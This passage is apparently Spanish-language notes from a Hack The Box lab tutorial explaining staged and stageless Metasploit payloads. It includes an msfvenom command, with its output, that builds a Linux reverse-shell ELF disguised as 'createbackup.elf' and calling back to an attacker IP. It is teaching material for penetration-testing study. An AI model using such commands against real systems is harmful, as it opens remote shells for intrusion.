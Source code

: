 ## Payloads **Staged** vs. **Stageless**

Los **payloads staged** crean una manera de enviar más componentes de nuestro ataque. Podemos verlo como "preparar el escenario" para algo más útil. Por ejemplo, el payload `linux/x86/shell/reverse_tcp`. Cuando se ejecuta usando un módulo de exploit en Metasploit, este payload enviará una pequeña fase que se ejecutará en el objetivo y luego se conectará de nuevo a la máquina atacante para descargar el resto del payload por la red y luego ejecutar el código para establecer una shell reversa.

Los **payloads stageless** no tienen una etapa previa. Por ejemplo, el payload `linux/zarch/meterpreter_reverse_tcp`. Usando un módulo de exploit en Metasploit, este payload se enviará en su totalidad a través de una conexión de red sin ninguna fase. Esto puede ser útil en entornos donde no tenemos acceso a mucho ancho de banda y la latencia podría interferir. En estos casos, es mejor seleccionar un payload stageless.

#### Identificando Payloads Staged y Stageless en Metasploit

La respuesta es simple: el nombre del payload te dará tu primera pista. Consideremos estos ejemplos:

* `linux/x86/shell/reverse_tcp`: Es un **payload staged**, lo sabemos porque cada **/** en su nombre representa una fase.
* `linux/zarch/meterpreter_reverse_tcp`: Es un **payload stageless**, ya que todo está en una única fase, sin separaciones.

Por último, consideremos estos dos payloads para Windows:

* `windows/meterpreter/reverse_tcp`: **Staged** (notamos las fases separadas).
* `windows/meterpreter_reverse_tcp`: **Stageless** (todo en una sola función).

Si el nombre del payload no es lo suficientemente claro, la descripción usualmente detallará si es **staged** o **stageless**.

## Construcción de un Payload Stageless

Ahora, construyamos un payload **stageless** sencillo usando **msfvenom** y desglosamos el comando utilizado.

**Comando:**

```bash
sherlock28@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

#### Desglose del Comando:

### **1. Llamada a MSFvenom**
